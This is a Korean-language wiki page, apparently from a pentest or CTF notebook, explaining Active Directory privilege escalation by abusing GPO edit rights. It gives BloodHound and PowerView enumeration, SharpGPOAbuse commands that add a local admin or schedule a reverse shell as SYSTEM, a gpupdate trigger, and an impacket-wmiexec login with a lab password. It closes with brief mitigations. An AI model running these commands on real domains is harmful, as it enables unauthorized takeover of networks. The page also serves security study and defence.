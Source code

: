 ```yaml
---
layout: page
title: GPO
description: >
  This chapter covers the basics of content creation with Hydejack.
hide_description: true
sitemap: false
---
```


0. this unordered seed list will be replaced by toc as unordered list
{:toc}


## GPO(그룹 정책 개체)를 이용한 권한 상승 가이드

GPO(Group Policy Object)는 Active Directory 내의 사용자 및 컴퓨터에 대한 정책(소프트웨어 설치, 스크립트 실행, 암호 정책 등)을 중앙에서 관리하는 강력한 기능입니다. 만약 공격자가 특정 GPO를 편집할 권한을 획득한다면, 해당 GPO가 적용되는 모든 컴퓨터에서 `SYSTEM` 권한으로 코드를 실행할 수 있습니다.

---

### **1. 취약점 식별**

- **목표:** 현재 공격자가 제어할 수 있는 계정이 편집 권한을 가진 GPO를 찾습니다.
- **핵심 도구:** BloodHound, PowerView

#### **BloodHound 활용**
- BloodHound는 이 공격 경로를 시각적으로 보여주는 가장 효과적인 도구입니다. "Find GPO Edit Rights" 또는 "Find Shortest Paths to Domain Admins" 같은 쿼리를 실행하면, 현재 사용자가 편집할 수 있는 GPO와 그 영향력을 한눈에 파악할 수 있습니다.

#### **PowerView를 이용한 수동 열거**
- `PowerView.ps1` 스크립트를 사용하여 특정 GPO의 권한을 수동으로 확인할 수 있습니다.

```powershell
# 특정 GPO의 ACL(Access Control List) 확인
Get-ObjectAcl -ResolveGUIDs -Name "<GPO_Name>"
```

---

### **2. `SharpGPOAbuse`를 이용한 공격**

- **[GitHub 링크](https://github.com/FSecureLABS/SharpGPOAbuse)**
- `SharpGPOAbuse`는 GPO 편집 권한을 악용하는 과정을 자동화해주는 최고의 도구입니다.

#### **공격 시나리오 A: 로컬 관리자 추가 (은밀한 방식)**
- **전략:** GPO를 수정하여 특정 사용자를 GPO가 적용되는 모든 컴퓨터의 로컬 관리자 그룹에 추가합니다. 이 방법은 즉시 셸을 획득하는 것은 아니지만, 탐지될 가능성이 낮습니다.

```powershell
# --AddLocalAdmin: 로컬 관리자 추가 모드
# --UserAccount: 관리자로 추가할 사용자 계정
# --GPOName: 공격 대상 GPO의 이름
./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount <attacker_user> --GPOName "Vulnerable GPO"
```

#### **공격 시나리오 B: 즉시 실행 작업 추가 (공격적인 방식)**
- **전략:** GPO에 즉시 실행되는 예약 작업을 추가하여, 리버스 셸과 같은 악성 코드를 `SYSTEM` 권한으로 실행시킵니다.

```powershell
# --AddImmediateTask: 즉시 실행 예약 작업 추가 모드
# --Command: 실행할 명령어
# --TaskName: 작업 이름
./SharpGPOAbuse.exe --AddImmediateTask --TaskName "Updates" --Command "C:\Temp\revshell.exe" --GPOName "Vulnerable GPO"
```

#### **정책 업데이트 강제 적용**
- GPO 변경 사항은 기본적으로 90~120분마다 클라이언트 컴퓨터에 적용됩니다. 만약 대상 컴퓨터에 이미 셸이 있다면, `gpupdate /force` 명령어로 정책을 즉시 업데이트하여 공격을 트리거할 수 있습니다.


```powershell
gpupdate /force
```

```powershell
net user enterprise-security
```

```bash
rlwrap impacket-wmiexec 'vulnnet.local/enterprise-security:sand_0873959498'@$target
```

---

### **3. 방어 (Mitigation)**

- **권한 최소화:** GPO 편집 권한은 도메인 관리자(Domain Admins)와 동일한 수준의 민감한 권한으로 취급해야 합니다. `Group Policy Creator Owners` 그룹의 멤버십을 엄격하게 관리하고, 일반 관리자에게 GPO 편집 권한을 위임하지 않습니다.
- **정기적인 감사:** BloodHound나 PowerShell 스크립트를 사용하여 주기적으로 GPO 권한 설정을 감사하고, 비정상적인 권한 할당을 모니터링합니다.

